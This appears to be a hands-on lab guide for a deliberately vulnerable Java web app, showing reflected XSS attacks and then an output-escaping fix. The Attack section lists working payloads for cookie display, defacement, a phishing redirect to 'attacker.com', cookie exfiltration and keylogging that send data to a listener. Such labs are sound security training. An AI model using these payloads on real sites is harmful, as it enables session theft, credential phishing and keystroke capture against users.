 ### Reflected XSS
---

## Introduction XSS

When looking at XSS (Cross-Site Scripting), there are three generally recognized forms of XSS:

1 . Reflected or Stored
2 . DOM Based XSS.

Cross-site scripting (or XSS) is a code vulnerability that occurs when an attacker “injects” a malicious script into an otherwise trusted website. The injected script gets downloaded and executed by the end user’s browser when the user interacts with the compromised website. Since the script came from a trusted website, it cannot be distinguished from a legitimate script.

## Owasp

https://owasp.org/www-community/attacks/xss/

#### **Lab Image : Java ReflectedXSS**

## Attack

* Step 1: Open browser and go to url

    ```
    http://localhost
    ```

    > **Note:** Replace `localhost` with your server url

* Step 2: Change to directory 

    ```
    cd /root/reflected-xss
    ```

* Step 3: Build the project

    ```
    docker run -it --rm --name my-maven-project -v "$(pwd)":/usr/src/mymaven -p 8080:8080 -/usr/src/mymaven maven:3.3-jdk-8 mvn package
    ```

* Step 4: Now start the app

    ```
    docker-compose up -d
    ```

* Step 5: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/index.jsp
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 6: Perform a normal activity

    ```
    http://localhost:8888/ReflectedXSS/index.jsp?name=MHN
    ```
    

* Step 7: Try these payloads to perform a XSS attack
    

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>alert(document.cookie)</script>
        ```            


    * To deface a website
      
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Edocument.body.innerHTML%3D%22%3Ch1%3EYou%20have%20been%20hacked%3C%2Fh1%3E%3Cimg%20src%3D'https%3A%2F%2Fimages.fineartamerica.com%2Fimages%2Fartworkimages%2Fmediumlarge%2F2%2Fheath-ledger-joker-portrait-madura-venkatachalam.jpg'%2F%3E%22%3C%2Fscript%3E
        ```
            
        
    * To perform phishing
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>window.location="http://attacker.com/gmail.html"</script>
        ```
    
    * To steal cookie
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>var a=new XMLHttpRequest();a.open("GET","http://localhost:9000/?domain="+document.cookie);a.send();</script>
        -------------------------------------
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Evar%20a%3Dnew%20XMLHttpRequest()%3Ba.open(%22GET%22%2C%22http%3A%2F%2Flocalhost%3A9000%2F%3Fdomain%3D%22%2Bdocument.cookie)%3Ba.send()%3B%3C%2Fscript%3E
        ```
        
    * To Perform keylogging
​    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3E%0Adocument.addEventListener(%22keyup%22%2C%20function(e)%7B%0A%09var%20x%20%3D%20new%20XMLHttpRequest()%3B%0A%09var%20url%20%3D%20%22http%3A%2F%2Flocalhost%3A9000%3F%22%2Be.key%0A%09x.open(%22GET%22%2Curl%20%2C%20true)%3B%0A%09x.send()%3B%0A%7D)%3B%0A%3C%2Fscript%3E
        ```
## Defend

* Step 0: Add Library to pom.xml and escape 


![2.png](2.png)

![1.png](1.png)



* Step 1: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/secure.jsp?name=MHN
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 2: Try these payloads to perform various XSS attacks

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/secure.jsp?name=%3Cscript%3Ealert(document.cookie)%3C/script%3E
        ```
        

    This should encoded and should render as normal html



